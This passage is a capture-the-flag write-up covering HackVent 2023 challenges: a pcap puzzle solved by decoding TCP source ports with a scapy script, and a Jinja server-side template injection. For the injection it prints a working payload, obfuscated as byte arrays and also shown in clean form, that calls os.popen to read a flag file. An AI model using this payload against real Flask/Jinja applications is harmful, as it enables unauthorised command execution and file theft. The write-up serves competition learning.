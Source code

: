 ### Decription
> Santa looked at the network logs of his machine and noticed that one of the elves browsed a weird website. He managed to get the pcap of it, and it seems as though there is some sensitive information in there?!
### Solution
When viewing the pcap file in wireshark the port number of the sender looked really weird. And infact when extracting these ports and substracting 56700 you can notice that those numbers look like ascii. When decoding the numbers, the flag is revealed.   
```python
from scapy.all import *
 
for cpacket in PcapReader('secret_capture.pcapng'):
    if cpacket[IP].src == '192.168.1.12' and cpacket[TCP].sport > 56700:
        print(chr(cpacket[TCP].sport - 56700), end='')
print('')
```
Flag: **HV23{Lo0k1ng_for_port5_no7_do0r$}**

## [HV23.10] diy‑jinja (coderion)
### Description
> We've heard you like to create your own forms. With SANTA (Secure and New Template Automation), you can upload your own jinja templates and have the convenience of HTML input fields to have your friends fill them out! Obviously 100% secure and even with anti-tampering protection!
### Solution
When looking at the sourcecode, you quickly see that this is a flask webapp with jinja2 templates. When further analysing the code one can notice that there is some injecting protection with a regex. The regex **{{(.*?)}}** matches all templates which then get further checked by this regex **^[a-z ]+$**, which only allows lowercase a-z and space. But you can notice that the field actually dont get checked but also rendered with render_template. With this you can perform a STI(Serverside Template Injection). One limitation is that you can't use any strings but this can easily be solved by just converting them to integers.   
File: 
```jinja
{{ a }}
```
Field a:
```python
{{ self.__init__.__globals__.__builtins__.__import__(self.__init__.__globals__.__builtins__.bytes([111, 115]).decode()).popen(self.__init__.__globals__.__builtins__.bytes([99, 97, 116, 32, 47, 97, 112, 112, 47, 102, 108, 97, 103, 46, 116, 120, 116]).decode()).read() }}
```
Cleaned up:
```py
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /app/flag.txt').read() }}
```
Or you can just execute the [solve.py](./10-diy-jinja/solve.py)

Flag: **HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}**  
## [HV23.11] Santa's Pie (coderion)
### Description
> Santa baked you a pie with hidden ingredients!   
![pie](./11-Santas-Pie/chall.png)
